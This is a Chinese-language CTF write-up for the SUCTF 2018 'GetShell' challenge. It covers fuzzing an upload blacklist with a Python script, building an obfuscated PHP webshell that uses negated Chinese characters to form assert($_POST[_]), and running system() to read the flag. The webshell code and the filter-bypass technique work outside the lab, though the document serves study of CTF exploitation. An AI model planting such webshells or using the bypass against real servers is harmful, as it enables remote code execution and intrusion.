







# [SUCTF 2018]GetShell

## 知识点

`文件上传汉字取反绕过`

## 解题

进入首页没发现什么东西


查看源码发现链接



进入页面后如图



意思就是内容从第`5`位开始解析，如果在黑名单则返回`illegal char`

`fuzz`一下，[python fuzz脚本](Scripts/upload_file_fuzz.py)

```python
import requests
import time

printer_chars = [chr(i) for i in range(33, 127)]    # 可打印字符组

url = 'http://1d0510b4-e285-46ad-92ae-87a8dc851d38.node5.buuoj.cn:81/index.php?act=upload'

def upload_file_fuzz(fuzz_dict):
    for char in printer_chars:
        resp = requests.post(url, files={'file': ('demo.txt', ('12345' + char).encode())}, timeout=8)
        time.sleep(0.19)        # 尽量设置时间不要太过
        # print(resp.text)
        if 'illegal char' not in resp.text:
            print(f"字符可用 ===> {char}")

if __name__ == '__main__':
    upload_file_fuzz(printer_chars)
```

运行结果为



发现`$`、`(`,`)`、`.`、`;`、`=`、`[`、`]`、`_`、`~`可通过，汉字也可以

使用取反汉字绕过

```php
<?php
echo 'PHP Version: ' . phpversion() . "\n";

$a = ~'垂';
echo $a . "\n";
echo $a[1];
```


可以利用这个原理，构造`assert($_POST[_])`

```php
<?php
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');

function str_split_unicode($str, $l = 0) {
    if ($l > 0) {
        $ret = array();
        $len = mb_strlen($str, "UTF-8");
        for ($i = 0; $i < $len; $i += $l) {
            $ret[] = mb_substr($str, $i, $l, "UTF-8");
        }
        return $ret;
    }
    return preg_split("//u", $str, -1, PREG_SPLIT_NO_EMPTY);
}

$s = '你归来是诗离去成词且笑风尘不敢造次我糟糠能食粗衣也认煮酒话桑不敢相思你终会遇见这么一个人他会用整个人生将你精心收藏用漫长岁月把你妥善安放怕什么岁月漫长你心地善良,终会有一人陪你骑马喝酒走四方为你唱一首歌歌中有你亦有我我的泪我的魅将都融入到我的歌声里飘向孤独的你你是否听到了我的歌曲是否也在黯然落泪？岁月匆匆人生漫漫漠视了真情谁是站谁的谁已经变得不重要至少曾经已拥有长相思爱相随时空隔离谁相陪？花前月下心随风相思一片梦成空笑看往事红尘中多少凝思付清秋？长相思泪相随曾经谁是谁的谁？孤星冷月泪盈盈念曾经相逢心长时光短让人垂泪到天明长相思苦相随窗前双燕比翼飞日暮情人成双对于时光无垠的田野中没有早一步也没有晚一步恰好遇见了想要遇见的人这是一段多少美丽而令人心动的尘缘于爱情来说相见恨早会恨晚站会留下梨花带雨的疼痛而于友情来说无论太早或者太迟都是一份值得珍惜的情缘晚秋缓缓走晚了我的轮回疏雨一刻半疏笼起我深深的梦馀昨日遗憾寸寸疏雨挑涸泪烛落笔无处飒晚秋彼晚秋未晚懒我疏雨疏风去归我初心还我清梦唯我在晚秋未晚里守望那疏雨半疏的麦田待下一片梧桐叶复舞我亦拾起我的旧梦旧梦清寒一枕乱我眸中晚秋躞蹀的雨疏疏拍窗我的晚秋疏雨半疏疏开昨日我的梦情缘如海深邃澈蓝干涸成妄谈一湛清湖泪潸然一颦寒眉锁阑珊只为你而欣悦只因你而清泪斑斑你是我的前世吧为何沁泊在我的心怀缱绻起涟波千层驻我心扉知我情怀从此我已习惯你的嘘寒问暖懒倦地痴卧在你的胸怀红霞满腮昨天再苦都要用今天的微笑把它吟咏成一段幸福的记忆；曾经再累都要用当站下的遗忘穿越万道红尘让心波澜不惊人生最大的荣耀不在于从不跌倒而在于每一次跌倒后都能爬起来回忆是件很累的事就像失眠时怎么躺都不对的样子有时候往往直到离开在回忆里才能知道自己有多喜欢一座城';

$arr_str=str_split_unicode($s);

$shell = "assertPOST";

for ($i=0; $i < strlen($shell); $i++) {
    for ($j=0; $j < strlen($s) ; $j++) {
        if ($shell[$i] === ~$arr_str[$j][1]) {      # 获取a对应的取反汉字
            echo $arr_str[$j].' ==> '.~$arr_str[$j][1] . "\n";
            break;                                  # 获取到汉字则结束循环，顺序输出
        }
    }
}
?>
```



运行后获得取反结果，编写`webshell`,[取反绕过webshell脚本](./Scripts/reverse_chinese.php)

```php
<?php

error_reporting(0);

$__ = [];
$_ = ($__ == $__);   // $_ = 1

$__ = ~(融);
$___ = $__[$_];  // a
$__ = ~(匆);
$___ .= $__[$_];  // as
$__ = ~(匆);
$___ .= $__[$_];  // ass
$__ = ~(的);
$___ .= $__[$_];  // asse
$__ = ~(半);
$___ .= $__[$_];  // asser
$__ = ~(独);
$___ .= $__[$_];  // assert

$____ = ~(~(_));    // _
$__ = ~(诗);
$____ .= $__[$_];    // P
$__ = ~(尘);
$____ .= $__[$_];    // PO
$__ = ~(笑);
$____ .= $__[$_];    // POS
$__ = ~(站);
$____ .= $__[$_];    // POST

$_ = $$____; // $_POST
$___($_[_]);    // assert($_POST[_])
```

去掉文件内容中所有的空格和注释，得到[去除注释和空格的webshell](./Scripts/clear_reverse_chinese.php)

```php
<?php
$__=[];
$_=($__==$__);
$__=~(融);
$___=$__[$_];
$__=~(匆);
$___.=$__[$_];
$__=~(匆);
$___.=$__[$_];
$__=~(的);
$___.=$__[$_];
$__=~(半);
$___.=$__[$_];
$__=~(独);
$___.=$__[$_];
$____=~(~(_));
$__=~(诗);
$____.=$__[$_];
$__=~(尘);
$____.=$__[$_];
$__=~(笑);
$____.=$__[$_];
$__=~(站);
$____.=$__[$_];
$_=$$____;
$___($_[_]);
```

最后上传`webshell`，[上传webshell的python脚本](./Scripts/upload_reverse_chinese.py)




因为`ls /`不能用，但`ls`可以，使用`cd /;ls`

```bash
_=system("cd /;ls;cat Th1s_14_f14g;")
```

发现是假的`flag`，看看`env`



在`env`发现`flag`

